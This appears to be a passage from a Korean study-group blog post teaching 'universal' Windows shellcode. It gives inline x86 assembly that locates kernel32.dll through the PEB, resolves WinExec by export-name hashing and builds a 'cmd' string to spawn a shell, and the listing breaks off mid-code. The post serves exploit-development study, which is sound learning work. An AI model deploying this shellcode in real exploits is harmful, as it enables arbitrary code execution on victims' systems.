 ```yaml
---
layout: post
title: SUA 시스템 해킹 스터디 - Universal 쉘코드 실습
---
```


### 170910 6주차

지난 시간에 이어서 어셈블리어로 작성된 아래 기계어 코드로 쉘코드를 살펴보자.

- **universal_shellcode.cpp**

```
#include "stdafx.h"

void main()
{
	__asm{
		jmp start

get_func_addr:
		// get name table index
    // 함수명 테이블 인덱스를 구함
 loop_ent:
		inc edx  // index++
		lodsd    // eax = *esi , esi += 4
		pushad
		add	ebx, eax  
		mov	esi, ebx  
		xor eax, eax  
		xor edi, edi  
 hash:
		lodsb    // eax = *esi, esi += 1   
		add edi, eax  // edi += char
		test al, al
		jnz hash
		mov [ebp+0x10], edi
		popad
		cmp [ebp+0x10], edi // cmp export name hash, 함수 Hash값 비교
		jne loop_ent		
		// get WinExec address
		movzx edx, word ptr [ecx+edx*2-2]	// Ordinal
		mov edi, [ebp+0x18]
		mov esi, [edi+0x1c]  	// Export Address Table
		mov edi, ebx
		add esi, edi		// Address Table
		add edi, [esi+edx*4]
		mov eax, edi
		// edi = 함수 주소 리턴
		ret

start:
		// cmd 문자열
		xor eax, eax
		mov [ebp+0xc], eax  
		mov [ebp+0xc], 0x63 // c
		mov [ebp+0xd], 0x6d // m
		mov [ebp+0xe], 0x64 // d

		// kernel32.dll base address 구함
		mov eax, fs:[eax+0x30]   // PEB
		mov eax, [eax+0xc]   // PEB_LDR_DATA
		mov eax, [eax+0x14]  // .exe InMemoryOrderModuleList
		mov ebx, [eax]       // ntdll.dll InMemoryOrderLinks
```